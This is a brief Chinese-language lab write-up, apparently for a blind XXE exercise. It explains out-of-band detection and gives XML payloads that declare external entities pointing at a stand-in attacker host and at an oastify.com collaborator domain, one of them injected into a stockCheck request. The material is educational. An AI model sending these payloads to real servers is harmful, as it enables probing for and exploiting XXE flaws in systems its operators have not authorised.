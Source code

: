 # 知识点
您通常可以使用与 XXE SSRF 攻击相同的技术检测盲 XXE，但会触发与您控制的系统的带外网络交互。例如，您将定义一个外部实体，如下所示：
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
然后，您将在 XML 中的数据值中使用已定义的实体。<br />这种 XXE 攻击会导致服务器向指定的 URL 发出后端 HTTP 请求。攻击者可以监控生成的 DNS 查找和 HTTP 请求，从而检测 XXE 攻击是否成功。
# 思路
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://uigl2ry2u2ikj0vktsbmp2ns5jb9zy.oastify.com">]>
<stockCheck><productId></productId><storeId>&xxe;</storeId></stockCheck>
```
![image.png](./images/20231017_2355518401.png)
# ![image.png](./images/20231017_2355525986.png)
